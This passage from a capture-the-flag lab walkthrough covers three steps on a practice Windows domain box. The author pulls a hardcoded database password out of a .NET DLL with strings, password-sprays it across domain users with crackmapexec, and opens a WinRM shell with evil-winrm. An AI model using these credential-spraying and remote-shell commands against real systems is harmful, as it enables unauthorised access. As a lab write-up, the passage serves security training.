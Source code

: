 I’ll copy `MultimasterAPI.dll` back to my machine over SMB.

### MultimasterAPI.dll

The file is a .NET binary:

```

root@kali# file MultimasterAPI.dll 
MultimasterAPI.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows

```

But before opening it in DNSpy, I’ll run `strings`. It’s important to remember for Windows binaries to run with and without `-el` to capture the 16 bit character strings. There’s one that jumps out when I run with `-el`:

```

server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;

```

That looks like a database connection string.

### Test Creds

In what’s becoming a theme for this box, I’ll check the creds with `crackmapexec` against my user list to see if it works for any, and it finds one:

```

root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p 'D3veL0pM3nT!' --continue-on-success
...[snip]...
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
...[snip]...

```

### WinRM

This user can also use WinRM to get a shell:

```

root@kali# evil-winrm -u 'MEGACORP\sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sbauer\Documents>

```

## Priv: sbauer –> jordan
